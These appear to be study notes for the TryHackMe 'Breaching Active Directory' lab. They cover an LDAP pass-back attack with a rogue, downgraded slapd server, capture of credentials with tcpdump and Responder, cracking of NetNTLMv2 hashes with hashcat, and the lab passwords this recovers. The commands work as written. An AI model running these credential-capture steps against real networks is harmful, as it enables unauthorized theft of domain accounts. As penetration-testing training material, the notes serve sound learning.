### Breaching Active Directory
  - This network covers techniques and tools that can be used to acquire that first set of AD credentials that can then be used to enumerate AD.
  
 - Learning Objectives
   - NTLM Authenticated Services
   - LDAP Bind Credentials
   - Authentication Relays
   - Microsoft Deployment Toolkit
   - Configuration Files


### Connecting To Network

---


### LDAP Bind Credentials 
   - LDAP(Lightweight Directory Access Protocol ) authentication: the application directly verifies the user's credentials, the application has a pair of AD credentials that it can use first to query ldap and then verify the AD user's credentials.

   - LDAP authentication is a popular mechanism with third party applications that integrate with AD, these include applications and systems such as:
      - Gitlab
      - Jenkins
      - Custom-developed web applications
      - Printers
      - VPNs 
    

---
### LDAP Pass-back Attacks
- can be performed when we gain access to a device's configuration where the LDAP parameters are specified

- we can alert the ldap configuration,such as IP or hostname of the ldap server
- we can modify this IP to our IP and test ldap configuration

- Practical example
  - Enter into **http://printer.za.tryhackme.com/settings**
  

  - here we have username only and then we need password so make **Test Settings**
  

   This detect the LDAP server failed to connect let's make listner by natcat and put our ip address and see response

   **Note we will put IP for breachad network**
   
    
   ```The supportedCapabilities show we have a problem```

- Hosting a Rogue LDAP Server
   - first install  **lapd ldap-utils** if not installed
   - execute ```sudo dpkg-reconfigure -p low slapd``` and  press No when request if you wanted to skip server configuration
   
   - enter **target domain**
    

   - create **ldif** file to make the server vulnerable by downgrading the support authentication machanisms and insert
```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
   ```
- Patch out ldap server by using 
```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./vuln.ldif && sudo service slapd restart
```
- verify our ldap server's configuration has benn applied 
```
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```


- Capturing LDAP Credentials
  ```
    sudo tcpdump -SX -i breachad tcp port 389
  ```
- go into **http://printer.za.tryhackme.com/settings** and chanage server into **breachad** network


- password is ```tryhackmeldappass1@```


### Authentication Relays
- this attacker only occur on the local network 

- Step to Reprdoucer
  - Run Responder
    ```
       sudo responder -I breachad
    ```

  - Wait until any event occur on the network like enter invalid share folder or domain
   
   ```capture the hash```
  

  - here we get username **SVCFILECOPY** and hash password
    we will crack password by **hashcat**
    ```
    hashcat -m 5600 hash.txt passwordlist-1647876320267.txt  --force
    ```
    
    ```password is ==> FPassword1!```
---

### Microsoft Deployment Toolkit


